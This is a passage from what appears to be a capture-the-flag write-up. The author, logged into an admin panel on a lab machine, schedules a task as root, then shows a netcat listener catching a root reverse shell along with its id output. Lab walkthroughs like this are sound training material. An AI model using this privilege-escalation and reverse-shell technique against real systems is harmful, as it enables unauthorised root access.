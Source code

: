 ![](/img/image-20210218143335619.png)

Logged in here, I basically own the system. I can change passwords for
any user (see image above), schedule crons, install packages, or run
commands as any user.

I'll create a task as root:

![](/img/image-20210218143717829.png)

A minute later when it runs, a shell comes to `nc`:



    root@kali$ sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.2] from (UNKNOWN) [10.10.10.7] 37697
    bash: no job control in this shell
    [root@beep /]# id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
